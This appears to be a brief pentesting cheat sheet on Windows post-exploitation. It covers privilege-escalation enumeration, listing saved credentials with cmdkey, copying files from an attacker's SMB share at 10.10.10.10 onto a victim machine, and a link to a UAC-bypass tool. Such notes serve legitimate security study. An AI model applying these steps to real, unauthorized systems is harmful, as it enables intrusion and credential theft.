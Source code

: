 ````markdown
## Windows Post-Exploitation Tips & Tools

### Enumeration & Privilege Escalation

- `icacls` – To check file and directory permissions  
- `schtasks` – To list and view scheduled tasks  
- `sc` – Service control manager (Windows equivalent of `systemctl`)  
- `whoami /priv` – To view privileges of the current user  
- `takeown` – To take ownership of a file  
- `cmdkey /list` – To view saved credentials in the Windows Credential Manager  
````
### File Sharing (SMB)

To share files from your Kali machine:

```bash
smbserver.py share .
```

To retrieve files on the victim machine:

```cmd
copy \\10.10.10.10\share\file.file C:\file.file
```

### File Searching (Windows)

To search for files (similar to `grep`):

```cmd
search -f *flag* -r
```

### UAC Bypass

* [UACME GitHub Repository](https://github.com/hfiref0x/UACME) – Tool to bypass UAC
  *Note: Requires an Admin account with medium integrity level*


